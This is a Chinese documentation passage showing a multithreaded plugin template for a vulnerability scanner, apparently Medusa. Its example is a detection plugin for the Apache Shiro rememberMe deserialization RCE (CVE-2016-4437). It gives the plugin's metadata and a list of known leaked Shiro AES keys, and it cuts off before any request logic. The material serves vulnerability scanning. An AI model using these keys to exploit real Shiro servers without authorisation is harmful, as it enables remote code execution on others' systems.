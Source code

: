## 多线程模板

> 如果插件中有for循环请求并且循环基数超过3个，需要把常规插件模板替换为该模板

下面以`Shiro`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,ErrorLog,WriteFile,GetToolFilePath,ErrorHandling,Dnslog,ThreadPool
import urllib3
import requests
import uuid
import base64
import time
import subprocess
from Crypto.Cipher import AES
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2016-4437" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2016-6-7'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "ShiroRememberMeDeserializationCommandExecutionVulnerability"  # 插件名称
        self.info['name'] ='ShiroRememberMe反序列化命令执行漏洞' #漏洞名称
        self.info['affects'] = "Shiro"  # 漏洞组件
        self.info['desc_content'] = "ApacheShiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值>Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Shiro低于<1.2.4版本，由于秘钥泄露高于1.24版本的也会执行代码"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Shiro版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(**kwargs)->None:
    url=kwargs.get("Url")#获取传入的url参数
    Headers=kwargs.get("Headers")#获取传入的头文件
    proxies=kwargs.get("Proxies")#获取传入的代理参数
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
                 "4AvVhmFLUs0KTA3Kprsdag==", "5AvVhmFLUs0KTA3Kprsdag==",
                 "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==", "bWljcm9zAAAAAAAAAAAAAA==",
                 "wGiHplamyXlVB11UXWol8g==",
                 "Z3VucwAAAAAAAAAAAAAAAA==", "MTIzNDU2Nzg5MGFiY2RlZg==", "U3ByaW5nQmxhZGUAAAAAAA==",
                 "fCq+/xW488hMTCD+cmJ3aQ==", "1QWLxg+NYmxraMoxAXu/Iw==", "ZUdsaGJuSmxibVI2ZHc9PQ==",
                 "L7RioUULEFhRyxM7a2R/Yg==",
                 "r0e3c16IdVkouZgk1TKVMg==", "bWluZS1hc3NldC1rZXk6QQ==", "a2VlcE9uR29pbmdBbmRGaQ==",
                 "WcfHGU25gNnTxTlmJMeSpw==",
                 "OY//C4rhfwNxCQAQCrQQ1Q==",
                 "5J7bIJIV0LQSN3c9LPitBQ==",
                 "f/SY5TIve5WWzT4aQlABJA==",
                 "bya2HkYo57u6fWh5theAWw==",
                 "WuB+y2gcHRnY2Lg9+Aqmqg==",
                 "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
```